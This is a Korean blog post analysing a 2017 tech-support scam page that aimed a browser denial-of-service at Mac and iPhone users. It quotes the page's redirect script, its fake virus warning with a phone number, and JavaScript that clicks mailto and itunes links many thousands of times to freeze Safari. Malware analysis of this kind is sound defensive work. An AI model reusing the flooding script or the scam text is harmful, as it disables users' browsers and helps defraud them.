 ```yaml
---
layout: post
title: Scam Page triggers DoS attack on some apple product(?)
date: 2017-01-08 14:47:36.000000000 +09:00
type: post
published: true
status: publish
categories:
- Malware Analysis
tags: []
meta:
  _edit_last: '1'
  avada_post_views_count: '359'
  sbg_selected_sidebar: a:1:{i:0;s:1:"0";}
  sbg_selected_sidebar_replacement: a:1:{i:0;s:12:"Blog Sidebar";}
  sbg_selected_sidebar_2: a:1:{i:0;s:1:"0";}
  sbg_selected_sidebar_2_replacement: a:1:{i:0;s:0:"";}
  pyre_show_first_featured_image: 'yes'
  pyre_fimg_width: ''
  pyre_fimg_height: ''
  pyre_portfolio_width_100: default
  pyre_video: ''
  pyre_image_rollover_icons: default
  pyre_link_icon_url: ''
  pyre_post_links_target: 'no'
  pyre_related_posts: default
  pyre_share_box: default
  pyre_post_pagination: default
  pyre_author_info: default
  pyre_post_meta: default
  pyre_post_comments: default
  pyre_main_top_padding: ''
  pyre_main_bottom_padding: ''
  pyre_hundredp_padding: ''
  pyre_slider_type: 'no'
  pyre_slider: '0'
  pyre_wooslider: '0'
  pyre_revslider: '0'
  pyre_elasticslider: '0'
  pyre_slider_position: default
  pyre_avada_rev_styles: default
  pyre_fallback: ''
  pyre_demo_slider: ''
  pyre_display_header: 'yes'
  pyre_header_100_width: default
  pyre_header_bg_color: ''
  pyre_header_bg_opacity: ''
  pyre_header_bg: ''
  pyre_header_bg_full: 'no'
  pyre_header_bg_repeat: repeat
  pyre_displayed_menu: default
  pyre_display_footer: default
  pyre_display_copyright: default
  pyre_footer_100_width: default
  pyre_sidebar_position: default
  pyre_sidebar_bg_color: ''
  pyre_page_bg_layout: default
  pyre_page_bg_color: ''
  pyre_page_bg: ''
  pyre_page_bg_full: 'no'
  pyre_page_bg_repeat: repeat
  pyre_wide_page_bg_color: ''
  pyre_wide_page_bg: ''
  pyre_wide_page_bg_full: 'no'
  pyre_wide_page_bg_repeat: repeat
  pyre_page_title: default
  pyre_page_title_breadcrumbs_search_bar: default
  pyre_page_title_text: default
  pyre_page_title_text_alignment: default
  pyre_page_title_custom_text: ''
  pyre_page_title_text_size: ''
  pyre_page_title_custom_subheader: ''
  pyre_page_title_custom_subheader_text_size: ''
  pyre_page_title_font_color: ''
  pyre_page_title_100_width: default
  pyre_page_title_height: ''
  pyre_page_title_mobile_height: ''
  pyre_page_title_bar_bg_color: ''
  pyre_page_title_bar_borders_color: ''
  pyre_page_title_bar_bg: ''
  pyre_page_title_bar_bg_retina: ''
  pyre_page_title_bar_bg_full: default
  pyre_page_title_bg_parallax: default
author:
  login: n0fate
  email: rapfer@gmail.com
  display_name: n0fate
  first_name: ''
  last_name: ''
---
```

<p>[markdown]<br />
*딱히 쓸만한 제목이 없어서 제목은 원 글 내용을 따옴*</p>
<p>@qingfro9이 보내준 말웨어 바이트 링크(감사!)인 [Tech support scam page triggers denial-of-service attack on Macs](https://blog.malwarebytes.com/101/mac-the-basics/2017/01/tech-support-scam-page-attempts-denial-of-service-via-mail-app/) 를 보고 확인 중에 아직 살아 있는 사이트(hxxp://safari-get.net)이 있길래 curl로 급하게 긁어와서 정리함.<br />
일단 이 녀석은 `UserAgent`가 `OS 10.1.1` 버전인 운영체제를 대상으로 하는 DoS 취약점임. 링크에서는 맥이라고 써있는데 iOS 10.1.1도 대상인 것 같음. 최신 버전으로 업데이트하면 문제는 해결. </p>
<p>## 스테이지 1<br />
일단 사이트에 접속하면 `index.html` 페이지가 당신을 반김. 이 페이지는 특별한건 없고 접속한 클라이언트 정보를 수집해 통계 정보를제공하는 구글 애널리틱스(google analytics) 코드가 있고, 아래는 웹 브라우저의 사용자 에이전트 정보를 찾아 운영체제 버전을 식별, 리다이렉션 함.</p>
<div class="highlighter-rouge">
<pre class="highlight"><code>
	<html>
	<script>
	  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
	  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
	  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
	  })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

	  ga('create', 'UA-73784359-12', 'auto');
	  ga('send', 'pageview');

	</script>
	<body>

	<script src="//code.jquery.com/jquery-1.12.0.min.js"></script>

	<script language="javascript">

	if ((navigator.userAgent.match(/OS 10.1.1/i))) {
	   location.replace("hxxp://safari-get.com/11.php");
	} else
	{
	location.replace("hxxp://safari-get.com/10.html");}


	</script>
</body></html></code></pre>
</div>
<p>링크 누르면 납치당하니 좀 수정함.코드를 보면, `OS 10.1.1`, 인 경우, 즉, 아이폰 버전이 10.1.1인 경우 `11.php`로 리다이렉션하고 그 외는 `10.html` 로 리다이렉션함.</p>
<p>## 스테이지 2</p>
<p>### OS 10.1.1이 아닌 경우<br />
일단 `10.html`은 다음과 같음.</p>
<div class="highlighter-rouge">
<pre class="highlight"><code>
	<strong>Warning Safari Crashed!!</strong> 
	 Your Apple Device May Have Adware/Spyware Virus.
	<br />
	 Call </code></pre>
<p><font size="35px">+1-844-423-2465</font><br />
	 immediately to connect with Apple Technical Support for installing the Protection Software. chat logs.</p>
<p>DATA AT RISK:<br /> <br />
	 Your credit card details and banking information.Your e-mail passwords and other account passwords.Your Facebook, Skype, AIM, ICQ and other<br />
	  <font size="20px"><br />
	 <br />Your private photos, family photos and other sensitive files.Your webcam could be accessed remotely by stalkers with a VPN virus.<br />
	 </font>
</div>
<p>사파리에 출력하는 메시지. 영어 잘 못하는 내가 봐도 문법이 이상함. 여튼 해킹 당했음이라는 메시지인데 이걸 나중에 메일 제목에도 넣음. 아래는 애플 메일 앱을 띄우는 스크립트 코드임.</p>
<div class="highlighter-rouge">
<pre class="highlight"><code>
	jQuery('#result').append('<a href="mailto:foo@example.com?&body=Apple%20Tech%20Support%20!cc=bar@example.com&subject=Warning!%20Virus%20Detected!%20%20%20%20%20%20%20' + extraData + '%00"></a>');
</code></pre>
</div>
<p>RFC2638와 [애플 가이드라인](https://developer.apple.com/library/content/featuredarticles/iPhoneURLScheme_Reference/MailLinks/MailLinks.html)을 준수한 코드임. 내용은 다음과 같음.</p>
<p>* 수신자 : `foo@example.com`<br />
* 메일 내용 : Apple Tech Support !<br />
* 참조 : `bar@example.com`<br />
* 제목 : Warning! Virus Detected!       Immediately Call ~~~~</p>
<p>그냥 이것만 띄우는 것이면 DoS가 아니지. 이걸 10만번 띄우는 스크립트 코드는 아래에 있음.</p>
<div class="highlighter-rouge">
<pre class="highlight"><code>
	 document.querySelector('a').click(0);

	 for(var i=0;i<100000;i++){
	 	 if(i>0) {
	 	 
		 document.querySelector('a').click();
		 for(var x=0;x<10000;x++){
		 console.log();
		 }
	    
	} else {
	    document.querySelector('a').click();
	    for(var x=0;x<100000;x++){
		 console.log();
	}
</code></pre>
</div>
<p>메일 보내는 창을 10만번 출력함. 악성코드 걸려서 정보 다털리는건 아니지만 걸리면 짜증날 듯. 시에라 가장 최근버전인 10.12.2에서 확인해보니 경고창을 보여주는 것으로 처리함. (위 링크에 스크린샷 있음). 아이폰에서는 무한로딩.</p>
<p>### OS 10.1.1 인 경우(ex. iOS 10.1.1)<br />
10.1.1 버전인 경우 아이튠즈를 이용함. 핵심 내용은 다음과 같음.</p>
<div class="highlighter-rouge">
<pre class="highlight"><code>
	jQuery('#result').append('<a href="itunes:' + extraData + '%00">.</a>');
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	[..SNIP..]
</code></pre>
</div>
<p>핵심은 저 `itunes:문자열(단순한 hello임)`인데 맥에서 테스트해보면 아이튠즈를 한번만 띄움. 아이튠즈 앱 자체가 여러개 뜨는 구조가 아니기 때문인 듯.<br />
아이폰의 경우에는 에러 메시지를 계속 발생시켜서 사파리를 사용불능 상태로 만듬. 문제를 해결하려면 단순히 사파리앱을 껐다가 키는 걸론 안되고, 설정->사파리-> `방문 기록 및 웹 사이트 데이터 지우기`를 선택해서 사파리 내역을 완전 삭제해야 함.</p>
<p>### 추가<br />
`10.html` 코드를 curl로 긁다보니 다음과 같은 코드도 긁혔음.</p>
<div class="highlighter-rouge">
<pre class="highlight"><code>
	Editing:  
	/home/safarmcl/public_html/port-safari.net/ios.html
	 Encoding:    Re-open Use Code Editor     Close  Save Changes
</code></pre>
</div>
<p>`safari-get.net` 사이트 자체가 실제 운영보다는 테스트용 서버인지 에디팅 경고 메시지가 나타난 그대로 html 파일을 저장하였음. 실제 코드는 아이폰에서 정상작동되지 않음.</p>
<p>## 결론<br />
맥, 아이폰이라고 신난다고 불법 사이트 돌아다니면 뒷통수 맞을 수 있으니 조심히 쓰자.<br />
[/markdown]</p>
